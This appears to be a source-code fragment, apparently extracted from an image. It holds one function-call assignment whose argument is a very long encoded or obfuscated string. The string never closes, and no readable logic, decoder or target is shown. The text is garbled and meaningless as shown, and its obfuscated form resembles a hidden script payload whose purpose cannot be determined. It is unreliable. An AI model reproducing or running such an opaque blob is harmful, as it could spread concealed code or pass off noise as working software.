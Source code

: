 r=h(m,"7i?Z1aJ<mqUkA4+CC4qaa+?mCZA+mJatiUZ1iZ4CUZ<+CJCBACUJJkZi{aAC+q<Z<A?<k4iq++UA<J1uJiZaP<4A<mJkZm4ZA?m4aUiAmZa1iJ+tUUkmkZ<mZ<4+4aqCJaAaqUam??+ACmC?kZm?1aAmA?UmJ<1qCC4J?CC4A?mAaJ<1aA?q+ikZiZ+kUJ<%ZU1+ZZC+Am1A1U?m+C<1Jqaii++mUkm?4kUAJ+Zm6?iHCk4JJ11??4C1Aki4Cik6<U11ai1VD<4?aJa1Zq!JA?m4JJk4qiaciU+1G?+YU<?A1aiJACUJ<i?4 1a4?CCTkUm1kUm<aiiAqJmJ<Z1JHZJqZkCAAJqfqkmma?CUC<ALmU1Cim<1Z+:mi?aC<A<5+ajamCJm??+AkJC1k?<a1AiZ+aaAJAZC Am1UZJk?kCUk4?i>ik1<+1mm1Z+i+4iU4<<ZZ;AAkq9Zn+Ckqmma??:+aUC<U1aiZ44UJZqi+AAqJJ3qAaJZJ+qAamC1k?1+ZUm1mj<4iq4J<Z1H?Amq?a+?Z+4kCm?aBi4+1Uk1Z?<4JUhJU<UJUZi0wAZ1Jai?JC!<Jma1ZiU+kk1JC1?Ji+kC1UZmqiZiAA<a4+imZaBiJ+BUUkUqC<1Z+q4miZjCUA14+k4mq14?mUVmkmJ1kjqq?J1aaZ?%AA4qaaqZJ1C4q+?q4?J+<k<Zk44U+<cZU>1?aCqA+qmiJu?CqAAiC++k?<A1JaA1qiZ4+Uk??AAqJJs?UC1k+mmkkaA+<AJ<U11n+iqzJ4aqUJiZ4k1kiqmJi?+CU<O<ka?i<+aUZmYZC}C4mZa*<Amq?aAJmJ??ZC?kaZm1Zim+?1iim41q+Jm<1JkZ?C1<UmaaA?i+CU4mU1qiq+iZCiq4?qAJJm?aCZ<CZAA1?ZA??+iAZ<qaNAmk+Ua<q11qkJq?+CmA?oSk<m?aJiq<CJJi?4AUJA1U?J41ikm4?qma<Zq+CAJZ+ai?aqAk1<C1+A144UJ??1BC+Aa1UJu?<CkAJi4ZJkF<U11<J1AiJ4AUqZUCqAZ4umqJq+U+4kqm+1A?Z4Uk<<CZki?A4UZJAZAC<AUqUi+i4CZkk1<14ia+4UqZCVmACq<miJ+?CCCAmqBa<iUC1U4mCiZ4q+JUZJ+1aAkA+qaak?mDim<mC14iC++<qJJ?Z+qkJmq1kC+3<Am?CCCA?mAaJJ41kiC+ZqA<ZZ+U<<<ZUW1A+4AA<q?a<ZaCJAmiCCUk?<A1JaJ1J344AqC??iA6?AiUZaqZ9UmkkmUaJ?a++1ai44mU?JAmUJCZiCkAUm4i?CCCkA?m+1ai<+JkaH4+4UvJUZ1JfZ<CCk+qaJm4UAkAZmi(?iC4kU4?UZkCC4aq<JA?<#ZA4?aC4kmm?1AJU1aiJ4qU+<<11i3kqqaJAZUC<kkm<+4Aim}1Ui1iCi14+aA<iZC!AAJqUJ<ZUm4aA?d+Uk1kCk+<Za}8<+?Zk%mA+qmJ?<1ak?i++a1i++mk?<A1JqNik+1J+ZmM?AAqJJ6?U41C4mqJZiA+JkTkkkm<<1+KZ4+aJ1?ZJCaAiqZi?v1CakA<C+aki<m1?_Aiq;i4AZa6qAmq?aAJ<a1i+AmAnm<a?iR+ak<<m41q+JmZ?iK+8i+CmJa+CA?m?1AiJ1Aiq+ZU+?mimIa4mqaiUAaq<am??+ACC+ZUCZ11UG44qUC?J4iU?J1?+CmiaCkAkm+1+41A<mAiZ+1UJ<;ZU1q1JXmA+qkaCZ1C4a1i++mk?<A1Ji_C++1JC1i>?AAqJUZmkJJ4+A+k+maa1i<<ka?}+4mU?UCq<<?+U4UAUqiJe?ZkaqkmZapiU<q<a=A4JU,UkUmJ<Z+CZA+1JZAik+kJ+Jia?i1+aU+JCC1AJUkqUJi?4jakC11Z+i4C1AMma;=(+4aa+<11iTJA<aza+?qU+kkm<am?k+AUkmJ/<Uq<4ZAwJ4_+U4ImC<i?<C+q<m11+iq+?1mi?4A+JmiqaiUA?4qJZ1mCJA:mUU<mZa1i<4CkUZF?tiq4Aqk<JZaIaA+1U?i4+4kAJ<4aC46+4kiJC11x+J41i83AUq1UJq<J1?+CaA?ZUZ<iq+iky>A4JU!JUZ1C+Amq?aA?JC_kUm1mJZi<Q1Uk<1T#U41q+4mZ???144iakZ9++kmm?q+<kaZGC+mm4<J?a:AA<U<JmAaqoam??+AXmAa1kiq4+Um<?<C<a1aC4AA?CTJA?mAaJ<Z1C?*+ZUkmJCA+U4CU<J4ZAe44a?4CUAlmUa1JUa<?i+A1<i44UU1J+mkJUZk-J4bqZJ??aUmqa<4am?1<k1q}+4mU?4Aq<JqZAo<aCZJC?kAmJq+mZ1<iqqmUJ<kCJiD4Jqa<<?481a4ZBCRkUm1kUm<1Zih+qk1<AZ4 AACZZSJAJqbaUJCa<?1++JAJUaqiU4qkiIq+1qAJJZl1m?aCkk41??4iU+4kZm?C+4aq?kJJ<ZA*i4Z?CKkA?mAaJ<Zaq?q+AUAZ?Z4i?4AaU1UZZA<A1qkJZ??CqAAiC+kk?<A1JJ?1Ci?JC15u?AAqJUAqZJi?<CAk<mVaqkim?112+4mC<ka<qJCZAO?AZqUCZAamJa;iUZki4+UU4<C1JHiA4qqCC4vq?aA?J1JiCC{k4<k1k?b+C1iiA41q+Jmm<JA?UCiA+mq^+=m++U4mC1aiAq1mU<i1ai#J<ZmCUA1m+U1mZaZ4JA?kqmZ1qUq<AZApJ424kAmq?1k?<+CAUmqaq??<Caii?4AUJ+<Uq<JZq9k4?m4aq?amkJYi++mk?kCka<+1>V44a<+<iZmCUAaqACaA<mma?iAZAii+Jkq<Z?JNZ4qqkTi4mq1a+?mZ+i4+4<}<A1a?i+ZU<mWZm9i4JUgCC4Jq?aA?JZi?mCmk<Zm?m?i+1UZ<+Z4f44JUaC44kqTaU?1?C?1+aU4m11ZWCq1U?<<C?4+4?qia4?CU+U-qiamikmP1Ui14++F1vCJq1iiqUJ1?+CmqUUU4?kZ?kkamm1mi?4AC44iUJ<9++4k4iUiaq?mmka+i++mk?AZUkm1?UiVACkiJ<Z+FqJiZ<C1k+mmqJqiaJiaA4kmmdZ4iJACq+JaZAq1a+?mi?aCq4qp9a?aUCmZ1?_A4JCZ4Uqa<aZJk?U1qaJ??4+q1C?J+?UA<Jm1<C11*ZUUqZJCZiCaA+mJ1C?1++14?i+=UU<1mU<<1iOAmJm?aCZ1C4AUqJ+4kCms1Ui1ZiiA+1Ui<UZZj?AqUxCma1JiUZ?JkqU1C+mAiZ+1UJ<-ZU1UZ<LUA<1A1a?JC3aa?4+mk?<Aq1<C1<;qm+qA<i+AP#ACqiaa??C<A1iAmG1qiZ44U<<iakUkZJGoAUq14?18myaUA<aiiC+1U+<mma<1Zk&a4aZaHUAmq?aAJqaC?AC?kZmUZ1&44UUq<C1<qCqJZ?CAAJ+1Aqm<1C?UU?lCqqU?1k+qU?<i1ikA41qCiUZ1CUkqqkai?mUPk4<q1Ut44aUa<aZ+CkAmq4im+Uk4mJaOvC41A1m4Zk44UU</ZUb1ZaCqACqiCJA!mUa1i++mk?<AmJii+ZU1J+Zma?g+kJUmqCaJ4+4+mUi4+CkS<U11J11i^<+ZJa1<Zq}mA4?kC?k4qiabiU+1C<+aUZ<ZZk+?4CUm<?Z<p/a41iC-kUm1qZmk1aik+?UmJkC1,4mmUGkC1qa?i1qiaZ?UCiJA<U1iAU4<qC<kZZq4<uZ&CUA14+A1mZJaikC?JU<a1Ui1<Z1JQJ4%qUUkqZJAiaCiAmqJaZi<+Z1mi?4AUJJWaJU41k4qJZZJCJAEmUqam?1AzJ+ik+m1ZAiZ+JZqS<AAqJJ2<JJZ?4CmAaiA+Jk(CUqZ1CA4qAU4Z<{aAUq1a+<kaCi4C?kAik+4U+<m1?JZZ<HA4Ja11WZ<CCk+?<CLkUm11+iq+JUA<J1VaCimx<4aZZYaAJqcaUJ4aA?AC1kkJU1a??+mZ+Bm4?qA?U1UmmJ?ACaq?<+AkJm0q4<<ZCiU+kZ4iZ4.qUJ1m1aq?+C<<Jq1aZ?i+Zk1<<1Ciq<i1R:1A+qmkJqka4?<CJkqiCC<k?<A1JJZZ4iJ4ZqqJCZae1A<1U1k?4CakZmU+<k4<U11f+Z<WiA?<q1Zj4C+AV<UaiLvAmkiik+4U+<m1?<m1a(C4Ua111Z1CkAA?<C4kUm11+JA1<?1+Um1<Z1<CC4mU?Ji?<x?ak?q++kmm?q+<C1<i?+mZCiZ4?qAJJ<<akZ?Ca<mq?ak?U+ik+mZ4+Um<?ZA?U1AZ+r1JCCmA?mAmJ??11AU<?mqiZ+<UJ<GZU1AZ<CAA<<AJm?aC<k4qZaakZm11JiG4U+a4AUAJk+A+?AiqiCaAJmma?iAZJiC+4U4m?1iii4UZ<iZAUq1a+<ka<?m+kkZmZaZiA44J?mi1ZA(kUUcaC1iC<A+?<CUkUm11+ak1UY4+mUiJ41m9Z4UUaC4Akq_aU?11??UCikmm?+ik1<1Z+om?q^iAma&1m?aCkA<q1akk<m41Ui14+Ck4<UmJkZZG+m1m=a4?ZCCAam++Uk1<+1mi?4AUJ<m<UMa41qmJ??A11?iC<kqZ+iUk?<A1Jio4UU11+U<1?AAqJJoCUZkiUq+1Ja4+<k+<U11l+?m3+A4UC?!i4EZ4ZqJaJ4A+<kAmJ+akJ<m1?uA1U,C44Um<XZi^(AZ?<C4kUm11+Ja1kdC4+UiJC1Yk+kaUkJiZm0Zak?+++kmm?qq<<1kpCAkU<<JZJNk44Z9CUA1<++?<4V?UUAi1k?44+Um<?mA<?ZiiZAqU imiH+4AZmaWU?CAik<m?aaAJkik-Ja1?Cq41UqC<AkmUa1i+Zm?1+ikZ<q1Ciik4UJJ+1aq<<k?UC1k+AqAJmaaAiiqUmqmi1mA?4:q<?-ZZCmkCmAa<4A+UkiZU1<i4+JkJJ44JU;JU41ZA4A4?1<J<Cik+m11+imZaiaC0Uagk+aq+JmZ?1qZa:aA4mqZ)?4CJApma1+4kk<UU<iZaM<J<1mCUA1m+U1mZaZ4JA<k?mZaiiAq?mqJ<11b+AqUdim+UACAmmia4iAU<1mi?4A1JCaq1iUA?4qJZZACJAGmUUZq?aji<++kqZ3?Wiq4Aqk<JZaIaA+q4CaA<mma?iA?U??4kUk<aZqX14mqkvi+aq1a+?m1t?kCUkqmo14ii4qkJ<a1a,+44a1JU?4Cm4-1JJ0?J+aA<<4a1iCqJ1ii641q+Jmm0a4ZZCa<Ua<+Ck+m?1AiJ1qim+<UZ<U1Jq4<8ZOCUA1+akqm+am4J41kqmZ1Uik<Z1iOJ4VqUU<qUJi?C++a<?C+Uk1<+q1<Z1Z+44mUq<<1?+aA<UwakZ?+FmJiCC1k?<A1Ja11Ci14Z<4<U1gCCA+q+JZZfmqakiA+JkcA4km<41mA?kmUaJCZUqaJZ?mC?kAACk4<k1kiZ<q1kjA4JUbkUU5aC1iC<A+J4Ja?Zm11+imm???+Zq!iUiJqC<yZ?CAAJ4ZkkqJl+?Z+kkmm?+iUC<1Z+rm?<+EACq4?AAaU<am??+A3Z+Ckqm?ZiW44aqkaq11 AA4qAaCZa41kCm11+iq+AmqmJa#im<i11/1A+qm4AqkJZ??CZkqZ+a1i<+Z1<iq4UU1J+mkJa?4ym4q1Uam?4+CaZ?4+Jkg<UqJ<Z1mD+4aqqJiZ+CqA?<kJJ?kCmkimi1qUCmi1?2A4JSA4qUZJ++m4J4iqiaakkm41+im+?+C4<k??U?<Q+A4q<JjA<q<aU?1++i+C1kkmZZ?CikJZCZ14?qAJJmZaCZ{CZkkmkak?1+aJUmZC+i?+iUZJ<Z1wq4J1+aq?+-?Aa1>aUiaC0UqZ?1kAJk<Uq<mZ4kmmUmCJaZa+4kA1<+qk<<A1Jiu?ARa4AqCJ<AAqJJs?UC1k+mmJJaA+<Am<U11K+??i<4qUJ<Z?4Ca4Gm4i?CC+